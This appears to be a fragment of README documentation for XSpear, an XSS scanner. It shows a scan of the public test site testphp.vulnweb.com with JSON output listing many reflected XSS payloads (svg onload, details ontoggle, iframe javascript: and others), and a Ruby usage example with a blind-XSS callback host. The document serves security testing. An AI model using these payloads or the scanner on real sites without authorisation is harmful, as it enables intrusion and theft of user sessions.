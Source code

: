 ```
[23] http://testphp.vulnweb.com/listproducts.php?cat=123'%22%3E%3Csvg/onload=alert(45)%3E&zfdfasdf=124fffff

...snip...
```            

**to JSON**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123&zfdfasdf=124fffff" -v 1 -o json
{"starttime":"2019-08-14 23:58:12 +0900","endtime":"2019-08-14 23:58:44 +0900","issue_count":24,"issue_list":[{"id":0,"type":"INFO","issue":"STATIC ANALYSIS","method":"GET","param":"-","payload":"<original query>","description":"Found Server: nginx/1.4.1"},{"id":1,"type":"INFO","issue":"STATIC ANALYSIS","method":"GET","param":"-","payload":"<original query>","description":"Not set HSTS"},{"id":2,"type":"INFO","issue":"STATIC ANALYSIS","method":"GET","param":"-","payload":"<original query>","description":"Content-Type: text/html"},{"id":3,"type":"LOW","issue":"STATIC ANALYSIS","method":"GET","param":"-","payload":"<original query>","description":"Not Set X-Frame-Options"},{"id":4,"type":"MIDUM","issue":"STATIC ANALYSIS","method":"GET","param":"-","payload":"<original query>","description":"Not Set CSP"},{"id":5,"type":"INFO","issue":"DYNAMIC ANALYSIS","method":"GET","param":"cat","payload":"XsPeaR\"","description":"Found SQL Error Pattern"},{"id":6,"type":"INFO","issue":"REFLECTED","method":"GET","param":"cat","payload":"rEfe6","description":"reflected parameter"},{"id":7,"type":"INFO","issue":"FILERD RULE","method":"GET","param":"cat","payload":"onhwul=64","description":"not filtered event handler on{any} pattern"},{"id":8,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<script>alert(45)</script>","description":"reflected XSS Code"},{"id":9,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<textarea autofocus onfocus=alert(45)>","description":"reflected onfocus XSS Code"},{"id":10,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<video/poster/onerror=alert(45)>","description":"reflected HTML5 XSS Code"},{"id":11,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<audio src onloadstart=alert(45)>","description":"reflected HTML5 XSS Code"},{"id":12,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<details/open/ontoggle=\"alert`45`\">","description":"reflected HTML5 XSS Code"},{"id":13,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<select autofocus onfocus=alert(45)>","description":"reflected onfocus XSS Code"},{"id":14,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<marquee onstart=alert(45)>","description":"reflected HTML5 XSS Code"},{"id":15,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<input autofocus onfocus=alert(45)>","description":"reflected onfocus XSS Code"},{"id":16,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"\"><iframe/src=JavaScriPt:alert(45)>","description":"reflected XSS Code"},{"id":17,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<meter onmouseover=alert(45)>0</meter>","description":"reflected HTML5 XSS Code"},{"id":18,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<keygen autofocus onfocus=alert(45)>","description":"reflected onfocus XSS Code"},{"id":19,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<audio src onloadstart=alert(45)>","description":"triggered <audio src onloadstart=alert(45)>"},{"id":20,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<marquee onstart=alert(45)>","description":"triggered <marquee onstart=alert(45)>"},{"id":21,"type":"HIGH","issue":"XSS","method":"GET","param":"cat","payload":"<details/open/ontoggle=\"alert(45)\">","description":"triggered <details/open/ontoggle=\"alert(45)\">"},{"id":22,"type":"VULN","issue":"XSS","method":"GET","param":"cat","payload":"<script>alert(45)</script>","description":"triggered <script>alert(45)</script>"},{"id":23,"type":"VULN","issue":"XSS","method":"GET","param":"cat","payload":"'\"><svg/onload=alert(45)>","description":"triggered <svg/onload=alert(45)>"}]}
```

## Usage on ruby code
```ruby
require 'XSPear'

# Set options
options = {}
options['thread'] = 30
options['cookie'] = "data=123"
options['blind'] = "https://hahwul.xss.ht"
options['output'] = json

# Create XSpear object with url, options
s = XspearScan.new "https://www.hahwul.com?target_url", options

```